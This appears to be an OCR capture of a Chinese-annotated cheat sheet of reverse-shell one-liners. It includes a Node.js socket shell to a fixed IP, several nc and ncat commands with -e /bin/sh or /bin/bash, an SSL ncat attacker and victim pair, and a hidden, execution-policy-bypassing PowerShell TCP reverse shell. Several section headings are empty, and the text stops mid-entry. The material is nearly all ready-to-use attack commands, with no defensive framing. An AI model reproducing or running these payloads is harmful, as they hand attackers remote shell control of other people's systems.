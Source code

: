 ```bash



# Nodejs反弹shell
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.17.26.64", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
or
require('child_process').exec('nc -e /bin/sh [IPADDR] [PORT]')
or
-var x = global.process.mainModule.require
-x('child_process').exec('nc [IPADDR] [PORT] -e /bin/bash')
or
https://gitlab.com/0x4ndr3/blog/blob/master/JSgen/JSgen.py




# ncat反向shell
ncat 127.0.0.1 4444 -e /bin/bash
ncat --udp 127.0.0.1 4444 -e /bin/bash
# 加密
A:  ncat -c bash -allow 192.168.1.20 -vnl 3333 --ssl  #被控端(服务器端)   -allow允许连接的ip， 端口, ssl加密
B:  ncat -nv 192.168.1.19 3333 --ssl      #攻击端
# 监听端口
ncat -lvvp 777


# OpenSSL反弹shell




# crontab反弹shell




# MSF生成反弹shell




# Powershell反弹shell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("[IPADDR]",[PORT]);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
# 或
```